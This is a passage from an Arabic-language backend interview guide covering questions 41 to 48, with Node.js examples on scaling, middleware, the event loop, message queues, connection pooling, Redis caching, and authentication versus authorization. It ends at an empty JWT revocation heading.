# 🌐 Backend & Web Architecture Interview Guide (Q1 → Q100)

> [!important]
> هذا الملف يحتوي على الدليل الشامل لمقابلات الـ Backend ومهندسي معمارية الويب (Q1 → Q100) المجدد والمطور بالكامل، بنطاق موحد على **منصة التجارة الإلكترونية (E-commerce Platform)**.

---

## Q41 — إيه الفرق بين Vertical Scaling وHorizontal Scaling؟

### أصل الحكاية

من المكونات الأساسية لتصميم السيرفرات: عندما تبدأ منصة التجارة الإلكترونية بطلب 1,000 مستخدم في اليوم، يفي سيرفر صغير بالغرض. ولكن عندما ترتفع حركة المرور إلى 500,000 مستخدم خلال موسم التخفيضات (Flash Sales)، يتوقف السيرفر عن الرد تحت وطأة الضغط!

أمام المهندس المعماري طريقان للتوسع (Scaling):
- **Vertical Scaling (Scale-Up - التوسع الرأسي)**: تزويد السيرفر الحالي بموارد عتادية أكثر (ترقية RAM من 16GB إلى 128GB، وزيادة CPU Cores من 4 إلى 64 Cores).
- **Horizontal Scaling (Scale-Out - التوسع الأفقي)**: إضافة سيرفرات متماثلة جديدة (من 2 سيرفرات إلى 50 سيرفرًا) وتوزيع حركة المرور بينها عبر **Load Balancer (Q40)**.



```javascript
// Horizontal Scaling Architecture Requires Stateless Servers!
// BAD In-memory session store (Fails on Horizontal Scaling!)
const activeSessions = {}; // Session lost if user hits Server 2!

// GOOD Centralized Redis Session Store (Scales Horizontally!)
const RedisStore = require('connect-redis')(session);
app.use(session({
  store: new RedisStore({ client: redisClient }),
  secret: 'cat-secret',
  resave: false,
}));
```

#### مثال 1: التطبيق العملي — اختيار التوسع الرأسي لقاعدة البيانات والأفقي للسيرفرات

في منصة التجارة الإلكترونية، الـ Backend Node.js API سهل جداً يتعمله Horizontal Scaling لأن الـ HTTP Requests هي Stateless (Q10)، بينما الـ Primary SQL Database أصعب يتعملها Horizontal Scaling وبتاخد عادةً Vertical Scaling الأول كحل أسرع قبل التفكير في الـ Sharding (Q57).

#### مثال 2: فخ شائع — الـ Statefulness يكسر الـ Horizontal Scaling

من أشهر الأخطاء المعمارية تخزين ملفات رفع الزبائن أو جلسات تسجيل الدخول (In-memory Sessions) داخل ذاكرة السيرفر المحلي! لما نضيف 5 سيرفرات جديدة ورا Load Balancer، الزبون اللي سجل دخول على سيرفر 1 هيجيب `401 Unauthorized` لما طلبه يروح لسيرفر 2! الحل هو جعل السيرفرات **Stateless** ونقل الـ State لـ Redis (Q46) أو S3.

#### مثال 3: حالة إنتاجية — الـ Auto-Scaling Groups والتأقلم مع المواسم

في بيئة AWS/GCP، بنظبط **Auto-Scaling Group (ASG)**. في الأيام العادية، المتجر بيشتغل بـ 3 سيرفرات. أول ما الـ CPU Usage يتعدى 70% في الذروة، الـ ASG يضيف 10 سيرفرات جديدة أوتوماتيكياً ويوزع الحمل عليهم، ويرجع يقللهم لما الزحمة تنتهي لتوفير التكاليف.

---

## Q42 — إيه هو الـ Middleware Pattern وكيف بيشتغل في السيرفرات؟

### أصل الحكاية

عند استقبال HTTP Request في سيرفر Express أو NestJS، يتوجب على السيرفر تنفيذ مهام متكررة ومشتركة قبل الوصول لمنطق المعاملة الرئيسي (Route Controller): مثل فحص الـ JWT Token، تسجيل الـ Audit Logs، تحجيم الـ Rate Limiting، وتفكيك الـ JSON Body.

نمط **Middleware Pattern (Chain of Responsibility)** يسمح بتدفق الـ Request عبر سلسلة متتالية من الدوال البرمجية (Middlewares). كل دالة تستقبل `req`, `res`, ودالة `next()`. إما أن تعالج الدالة الطلب وتمرره للدالة التالية بـ `next()`, أو تقطع السلسلة وترد بـ Error فوري!



```javascript
// Production-grade Authentication Middleware in Express
const jwt = require('jsonwebtoken');

function authMiddleware(req, res, next) {
  const authHeader = req.headers.authorization;
  if (!authHeader || !authHeader.startsWith('Bearer ')) {
    return res.status(401).json({ error: 'مطلوب رمز التوثيق' });
  }

  const token = authHeader.split(' ')[1];
  try {
    const decoded = jwt.verify(token, process.env.JWT_SECRET);
    req.user = decoded; // Attach user payload to request object!
    next(); // Pass control to the next middleware in chain
  } catch (err) {
    return res.status(403).json({ error: 'رمز التوثيق غير صالح أو منتهي الصلاحية' });
  }
}
```

#### مثال 1: التطبيق العملي — تسجيل الـ Audit Logs وتحديد زمن استجابة الطلبات

في المتجر، بنكتب Logger Middleware يحسب زاد سرعة الرد: يسجل وقت بدء الطلب `Date.now()` وعند انتهاء الاستجابة `res.on('finish')` يطبع زمن الاستجابة والـ Status Code في السجلات لتحليل الأداء.

#### مثال 2: فخ شائع — نسيان استدعاء `next()` وتجمد الـ Request

من الأخطاء الكارثية نسيان كتابة `next()` أو عدم إرجاع `res.json()` داخل دالة الـ Middleware! الطلب سيفضل معلقاً (Hanging Request) في المتصفح حتى يقطع بـ `Gateway Timeout`.

#### مثال 3: حالة إنتاجية — الـ Global Error Handling Middleware الموحد

في تطبيقات Node.js، نضع في نهاية السلسلة **Global Error Handler Middleware** (دالة تستقبل 4 عناصر `(err, req, res, next)`). أي دالة في السيرفر ترمي Error يتم التقاطه مركزياً هنا، لتسجيل الـ Stack Trace وإرجاع رد موحد بـ `500 Internal Server Error` دون تسريب تفاصيل الكود الأمنية للعميل.

---

## Q43 — إزاي الـ Node.js Event Loop بيعالج آلاف الطلبات المتزامنة برغم إنه Single-Threaded؟

### أصل الحكاية

من أشهر الأسئلة في مقابلة Node.js: كيف يستطيع سيرفر يعمل على خيط معالجة واحد (**Single-Threaded**) خدمة 50,000 زبون متزامن في نفس اللحظة دون تجميد؟

السر يكمن في تقنية **Non-Blocking I/O** بالتكامل مع مكتبة **libuv** و الـ **Event Loop**.
عند قراءة بيانات من الداتابيز أو ملف من القرص، Node.js لا يقف منتظراً وصول البيانات (Blocking)! هو يكلّف نظام التشغيل ببدء القراءة في الخلفية (Asynchronous I/O)، ويتفرغ الـ Event Loop فوراً لاستقبال طلبات الزبائن الجدد. أول ما الداتابيز ترجع البيانات، نظام التشغيل يدفع الـ Callback لطابور الأحداث (Event Queue)، ليقوم الـ Event Loop بتنفيذه فور تفرغه.



```javascript
// Non-Blocking vs CPU Blocking Code
const fs = require('fs');

// 1. GOOD: Non-Blocking Asynchronous Read (Frees Event Loop!)
app.get('/api/products', (req, res) => {
  fs.readFile('/data/products.json', (err, data) => {
    res.json(JSON.parse(data));
  });
});

// 2. BAD: Heavy Synchronous CPU Computation (Blocks Event Loop!)
app.get('/api/heavy-calc', (req, res) => {
  let total = 0;
  for (let i = 0; i < 10_000_000_000; i++) { total += i; } // BLOCKS EVERYTHING!
  res.json({ total });
});
```

#### مثال 1: التطبيق العملي — تصفح منتجات المتجر دون خنق السيرفر

في منصة التجارة، 10,000 زبون بيطلبوا صفحة المنتجات في نفس اللحظة. Node.js يرسل 10,000 استعلام للداتابيز بدون إيقاف خيط المعالجة، ويدير الردود فور ورودها من الشبكة بسلاسة.

#### مثال 2: فخ شائع — سد الـ Event Loop بـ Heavy CPU Operations

أكثـر خطأ قاتل في Node.js هو تنفيذ عمليات حسابية معقدة (مثل تشفير الصور، ضغط الملفات، أو لوبات رياضية ضخمة) داخل الـ Main Thread! العملية دي هتعطل الـ Event Loop بالكامل، وتخلي كل زبائن المتجر واقفين مستنيين لحد ما الحسبة تخلص! الحل هو ترحيل العمليات دي لـ **Worker Threads (Q87)**.

#### مثال 3: حالة إنتاجية — مراقبة الـ Event Loop Lag بـ Prometheus

في بيئة Production، بنقيس مؤشر **Event Loop Lag** (كم ميكروثانية يتأخر الـ Event Loop عن تنفيذ التايمرز). لو المؤشر ارتفع عن 100ms، بيتبعت Alert فوري للمهندسين لوجود كود بيعمل Blocking يجب إصلاحه.

---

## Q44 — إيه هي الـ Message Queues ومتى تحتاج تستخدم RabbitMQ أو Kafka؟

### أصل الحكاية

عندما يقوم زبون المتجر بتأكيد عملية الشراء، يتطلب النظام تنفيذ عدة مهام: خصم المبلغ، تعديل المخزون، توليد الفاتورة PDF، إرسال بريد إلكتروني، وإرسال إشعار لمستودع الشحن. لو نفذنا كل هذه العمليات متزامنة داخل طلب الـ HTTP الأصلي، سيستغرق الرد 8 ثوانٍ ويكون عرضة للفشل لو توقفت خدمة الإيميلات!

الحل هو استخدام **Message Queue (طابور الرسائل)** مثل **RabbitMQ** أو **BullMQ (Redis)** أو **Apache Kafka**.
سيرفر الـ API يتأكد من خصم رصيد الطلب، ثم يدفع **Job Event** للطابور ويرجع ردًا فورياً بـ `200 OK` للزبون في 50ms! وتستلم سيرفرات خلفية مستقلة (**Workers**) الرسائل من الطابور وتنفذ المهام الثقيلة (إرسال الإيميل، الشحن) في الخلفية بأمان.



```javascript
// BullMQ Queue Producer in Node.js Express API
const { Queue } = require('bullmq');
const emailQueue = new Queue('email-sending-queue', { connection: redisConfig });

app.post('/api/v1/orders', async (req, res) => {
  const order = await createOrderInDb(req.body);

  // Push heavy email job to background queue!
  await emailQueue.add('sendOrderConfirmation', {
    email: req.user.email,
    orderId: order.id,
  });

  return res.status(201).json({ status: 'success', data: order });
});
```

#### مثال 1: التطبيق العملي — تفكيك الاعتمادية (Decoupling) ومنع انهيار الخدمة

في متجر التجارة الإلكترونية، لو خدمة إرسال البريد الإلكتروني الخارجية توقفت عن العمل، الـ Queue يحفظ كل الرسائل عنده بـ Persistence Storage. أول ما خدمة الإيميل ترجع يرسلهم Workers بالتتابع بدون ما يفقد المتجر طلب شراء واحد!

#### مثال 2: فخ شائع — استخدام الـ Queue للبيانات الحساسة التي تتطلب Synchronous Response

من الأخطاء الكارثية دفع عملية الخصم المالي البنكي لـ Background Queue والرد على الزبون بـ "تم الشراء" قبل التأكد من وجود رصيد بالبطاقة! العمليات المالية الحتمية يجب أن تكون **Synchronous**، بينما التبعات الجانبية تكون **Asynchronous Queue**.

#### مثال 3: حالة إنتاجية — سياسات إعادة المحاولة وإدارة الرسائل الميتة (Dead Letter Queue - DLQ)

في الـ Queue الاحترافي، لو فشل إرسال إشعار الشحن لخطأ شبكة، الـ Queue يعيد المحاولة بـ **Exponential Backoff (Q85)**. لو فشل 5 مرات متتالية، ترحل الرسالة تلقائياً لـ **Dead Letter Queue (DLQ)** ليتم فحصها ودراستها يدوياً من فريق الهندسة.

---

## Q45 — إيه هي الـ Database Connection Pooling وليه إجباري تستخدمها؟

### أصل الحكاية

فتح اتصال جديد بقاعدة البيانات (PostgreSQL Connection) عملية مكلفة جداً عتادياً وشبكياً: تتطلب فتح TCP Socket، تنفيذ TLS Handshake، والتحقق من كلمة السر وأذونات المستخدم داخل محرك الداتابيز. العملية دي بياخد حوالي 50ms إلى 100ms لكل Request!

لو سيرفر الـ API يفتح اتصال جديد مع كل HTTP Request ويغلقه في النهاية... السيرفر والداتابيز سيتوقفان تماماً تحت ضغط الـ TCP Overhead، وستصل الداتابيز لـ `FATAL: sorry, too many clients already`.

الحل هو **Database Connection Pooling (حوض اتصالات قاعدة البيانات)**:
عند تشغيل سيرفر الـ API، يتم فتح عدد محدد من الاتصالات الدائمة المجهزة مسبقاً (مثلاً 20 Connection) والحفاظ عليها مفتوحة. عندما يصل طلب جديد، يستعير اتصالاً جاهزاً من الـ Pool ينفذ الاستعلام في 1ms، ثم يعيد الاتصال للـ Pool فوراً ليستفيد منه طلب آخر!



```javascript
// Production PostgreSQL Pool Configuration with node-postgres (pg)
const { Pool } = require('pg');

const pool = new Pool({
  connectionString: process.env.DATABASE_URL,
  max: 20, // Maximum number of open clients in pool
  idleTimeoutMillis: 30000, // Close idle clients after 30 seconds
  connectionTimeoutMillis: 2000, // Return an error if connection not acquired in 2s
});

module.exports = {
  query: (text, params) => pool.query(text, params),
};
```

#### مثال 1: التطبيق العملي — تحسين السرعة من 100ms إلى 2ms لكل استعلام

في منصة المتجر، باستخدام Connection Pool مجهز، يستطيع السيرفر تنفيذ استعلامات السلة والمنتجات في 2ms فقط بدلاً من 100ms، مما يوفر 98% من زمن الانتظار للزبون.

#### مثال 2: فخ شائع — تسريب الاتصالات (Connection Leak) وعدم إعادة الاتصال للـ Pool

من الأخطاء الكارثية استعارة client يدوياً `const client = await pool.connect()` وعدم إرجاعه بـ `client.release()` في بلوك `finally`! بعد 20 طلب، الـ Pool يتفرغ تماماً ويتجمد السيرفر في انتظار اتصال لن يعود أبداً.

#### مثال 3: حالة إنتاجية — إدارة الـ Max Connections مع Serverless/Lambdas بـ PgBouncer

في بيئات Serverless (زي AWS Lambda أو Vercel)، كل Lambda Function تنشئ instance جديد وقد تفتح آلاف الاتصالات التي تخنق الداتابيز! الحل في بيئات الإنتاج هو وضع **PgBouncer** أمام PostgreSQL ليعمل كـ Centralized Connection Pooler بين ملايين الـ Lambdas والداتابيز.

---

## Q46 — إزاي الـ Caching بـ Redis بيحسّن أداء الـ API ومبدأ Cache-Aside Pattern؟

### أصل الحكاية

استعلام قائمة المنتجات الأكثر مبيعاً في منصة التجارة الإلكترونية يتطلب استعلام SQL معقد يجمع بين جداول `orders`, `products`, و `categories`. الاستعلام يستغرق 400ms على PostgreSQL. لو يطلب الصفحة 10,000 زبون في الدقيقة، الداتابيز ستستغرق 100% CPU في تكرار حساب نفس النتيجة!

الحل هو **In-Memory Caching** باستخدام **Redis**.
بدل القراءة المتكررة من القرص الصلب في الداتابيز، نحفظ نتيجة الاستعلام كـ JSON في ذاكرة Redis العشوائية (RAM). القراءة من Redis تستغرق **1ms فقط** وتتحمل ملايين الطلبات في الثانية.

النمط المعماري المعياري لاستخدام الكاش هو **Cache-Aside Pattern (Lazy Loading)**:
1. عند وصول طلب القراءة، الباك اند يفحص Redis أولاً (Cache Lookup).
2. **Cache Hit**: لو البيانات موجودة في Redis، يرجعها السيرفر فوراً للزبون في 1ms!
3. **Cache Miss**: لو مش موجودة، يقرأها السيرفر من PostgreSQL، يحفظ نسختها في Redis مع وقت انتهاء (TTL 5 minutes)، ثم يرجعها للزبون.



```javascript
// Express Handler Implementing Cache-Aside Pattern with Redis
app.get('/api/v1/products/top-selling', async (req, res) => {
  const cacheKey = 'products:top-selling';

  // 1. Try fetching from Redis Cache
  const cachedData = await redis.get(cacheKey);
  if (cachedData) {
    return res.json({ source: 'cache', data: JSON.parse(cachedData) });
  }

  // 2. Cache Miss: Fetch from Primary PostgreSQL Database
  const topProducts = await db.query(`
    SELECT p.id, p.name, COUNT(oi.id) as total_sales 
    FROM products p JOIN order_items oi ON p.id = oi.product_id 
    GROUP BY p.id ORDER BY total_sales DESC LIMIT 10
  `);

  // 3. Store result in Redis with 5-minute Expiration Time (TTL)
  await redis.set(cacheKey, JSON.stringify(topProducts.rows), 'EX', 300);

  return res.json({ source: 'database', data: topProducts.rows });
});
```

#### مثال 1: التطبيق العملي — تخفيض الحمل عن قاعدة البيانات الرئيسية بنسبة 90%

في المتجر، تطبيق Cache-Aside على أسعار وتفاصيل المنتجات يجعل 90% من استعلامات الزبائن تُخدم مباشرة من Redis في 1ms، مما يحافظ على استقرار PostgreSQL لاستعلامات عمليات الشراء الحساسة فقط.

#### مثال 2: فخ شائع — الـ Cache Invalidation والمساحات الممتلئة بأحدث غير محدثة

أصعب مشكلة في الكاش هي **Cache Invalidation**: لو التاجر غير سعر المنتج في الداتابيز، والزبائن لسه بيشوفوا السعر القديم من الكاش! الحل هو إما تحديد **TTL مناسب** (مثل 5 دقائق) أو إبادة الكاش صراحة `redis.del('product:42')` فور تحديث السعر في الداتابيز.

#### مثال 3: حالة إنتاجية — الوقاية من الـ Cache Stampede بـ Mutex Locks

عند انتهاء صلاحية مفتاح كاش منتج شهير جداً في نفس الميكروثانية التي يطلبه فيها 5,000 زبون متزامن... سينطلق الـ 5,000 طلب لقاعدة البيانات في نفس اللحظة (**Cache Stampede**)! الوقاية تكون باستعمال **Distributed Lock (Q89)** ليقوم طلب واحد فقط بإعادة إعمار الكاش بينما تنتظر الطلبات الأخرى الرد المفحوص.

---

> [!tip] Checkpoint نهائي للموضوع (معمارية السيرفرات والـ Scaling)
> **مراجعة محورية لمعمارية السيرفرات والتوسع:**
> 1. **Horizontal Scaling (Q41)**: اجعل سيرفرات الباك اند Stateless لتوسيعها أفقياً بسهولة خلف Load Balancer.
> 2. **Middlewares (Q42)**: نظّم العمليات المشتركة (Auth, Logging, Validation) كـ Pipeline متسلسل قابل للإعادة.
> 3. **Event Loop Optimization (Q43)**: تجنب الـ CPU-blocking code لحماية أداء Node.js الفائق في الـ Non-blocking I/O.
> 4. **Queues & Pooling (Q44 & Q45)**: ارجئ المهام الثقيلة لـ Message Queues واستخدم Connection Pooling لإدارة اتصالات قاعدة البيانات بكفاءة.
> 5. **Redis Caching (Q46)**: طبق Cache-Aside Pattern لتخفيض زمن الاستجابة إلى 1ms وتخفيف حمولة قاعدة البيانات.

---

## Q47 — إيه الفرق بين Authentication وAuthorization، وليه التفريق بينهم مصيري؟

### أصل الحكاية

من أشهر نقاط الخلط الأمنية بين المطورين الجداد: الخلط بين **Authentication (المصادقة - مين إنت؟)** و **Authorization (التفويض - مسموحلك تعمل إيه؟)**.

- **Authentication (المصادقة)**: هي العملية التي يثبت فيها المستخدم هويته للنظام (مثال: إدخال اسم المستخدم وكلمة السر، أو مسح البصمة، أو كود OTP). النتيجة: النظام يتعرف على الشغص ("أنت الزبون أحمد #42").
- **Authorization (التفويض)**: هي العملية التي يفحص فيها النظام ما إذا كان هذا المستخدم يملك الصلاحية للوصول لمورد معين أو تنفيذ إجراء محدد (مثال: هل الزبون أحمد مسموح له بإلغاء طلب الشراء الخاص بالزبون محمد؟ بالطبع لا!).



```javascript
// Express Example Demonstrating AuthN vs AuthZ
// 1. Authentication Middleware (Who are you?)
function authenticate(req, res, next) {
  const token = req.headers.authorization?.split(' ')[1];
  if (!token) return res.status(401).json({ error: 'من فضلك سجل دخولك أولاً (401)' });
  req.user = verifyToken(token); // e.g. { id: 42, role: 'CUSTOMER' }
  next();
}

// 2. Authorization Middleware (Are you allowed to delete products?)
function authorizeAdmin(req, res, next) {
  if (req.user.role !== 'ADMIN') {
    return res.status(403).json({ error: 'عفواً، هذه العملية مخصصة للمدراء فقط (403)' });
  }
  next();
}
```

#### مثال 1: التطبيق العملي — الـ HTTP Status Codes المعيارية (401 vs 403)

في منصة المتجر، لو الزبون حاول يفتح صفحة سلة الشراء بدون ما يرفق كارت التوثيق، السيرفر يرجع **`401 Unauthorized`** (Authentication Error). لكن لو الزبون العادي حاول يدخل لوحة تحكم التاجر وحذف المنتجات، السيرفر يتعرف عليه ولكنه يرجع **`403 Forbidden`** (Authorization Error).

#### مثال 2: فخ شائع — الـ Broken Object Level Authorization (BOLA / IDOR)

من أخطر الثغرات الأمنية في العالم (OWASP #1) هي الاعتماد على Authentication فقط ونسيان Authorization! مثل: الزبون أحمد يسجل دخول، فيطلب `GET /api/v1/orders/99` (طلب محمد). لو الباك اند يفحص فقط هل أحمد مسجل دخول أم لا، دون فحص هل الطلب #99 يخص أحمد فعلياً، سيستطيع أي زبون سرقة بيانات باقي الزبائن!

#### مثال 3: حالة إنتاجية — تصميم الـ Access Control Layer بالـ ABAC / RBAC (Q51)

في المنصات الكبيرة، بنبني **Authorization Middleware** موحد يقرأ الـ Role والـ Context (مثل: الزبون يملك هذا الطلب `order.userId === req.user.id` أو يملك دور `ADMIN`) لمنع الثغرات الأمنية بشكل شامل.

---

## Q48 — إيه الفرق بين Session-Based Auth وJWT Auth، ومتى تختار كل واحد؟

### أصل الحكاية

عندما يثبت المستخدم هويته، كيف يظل السيرفر متذكراً لهويته في الطلبات التالية بدون إجباره على كتابة كلمة السر في كل طلب؟

قدامك طريقتان رئيسيتان:
- **Session-Based Auth (Stateful)**: السيرفر يولد `sessionId` عشوائي، يحفظ بيانات الجلسة في ذاكرة السيرفر/Redis، ويرسل الـ `sessionId` للمتصفح في Cookie مشفرة (`HttpOnly`). المتصفح يرفق الـ Cookie تلقائياً مع كل طلب، والسيرفر يفحص الـ Session ID في Redis.
- **JWT (JSON Web Token) Auth (Stateless)**: السيرفر يولد Token مشفرة موقعة أمنياً (Cryptographically Signed) تحوي بيانات المستخدم (`userId`, `role`, `exp`). السيرفر **لا يحفظ شيئاً عنده**! يرسل الـ Token للعميل، والعميل يرفقها في Header `Authorization: Bearer <token>`. السيرفر يتحقق من صحة التوقيع رياضياً في 1ms.

```mermaid
flowchart TD
    subgraph 1. Stateful Session Auth
        Client1[Client] -->|Cookie: sessionId=xyz| Server1[API Server]
        Server1 <-->|Lookup Session| Redis[(Central Redis Store)]
    end

    subgraph 2. Stateless JWT Auth
        Client2[Client] -->|Header: Bearer Token| Server2[API Server]
        Server2 -->|Verify Crypto Signature < 1ms| Server2
        Note over Server2: No Database or Redis Lookup needed!
    end
```

```javascript
// Verifying JWT Token Cryptographically without DB Lookups
const jwt = require('jsonwebtoken');

const token = jwt.sign(
  { userId: 42, role: 'CUSTOMER' },
  process.env.JWT_SECRET,
  { expiresIn: '15m' } // Short expiration for safety
);

// Verification process (Stateless & High Performance)
const decodedPayload = jwt.verify(token, process.env.JWT_SECRET);
console.log(decodedPayload.userId); // 42
```

#### مثال 1: التطبيق العملي — اختيار JWT لتطبيقات الموبايل والـ Microservices

في منصة المتجر، بنستخدم **JWT Auth** لأن تطبيقات الموبايل لا تتعامل مع الـ Cookies بسلاسة، ولأن الـ JWT تسمح لـ 20 Microservice بتأكيد هوية الزبون فوراً دون الحاجة لضغط قاعدة بيانات الجلسات المركزية.

#### مثال 2: فخ شائع — تخزين البيانات الحساسة داخل الـ JWT Payload

من الفخاخ الأمنية الكارثية كتابة كلمة السر أو الكارت البنكي داخل الـ JWT Payload! الـ JWT مسلسلة ومردودة بـ **Base64Url** وليست مشفرة (Not Encrypted, only Signed). أي شخص يقرأ الـ Token يقدر يفك Base64 ويشوف البيانات! الـ Payload يكتب فيه البيانات العامة فقط مثل `userId` و `role`.

#### مثال 3: حالة إنتاجية — حل مشكلة إلغاء الـ JWT قبل انتهائها (Token Revocation / Blacklist)

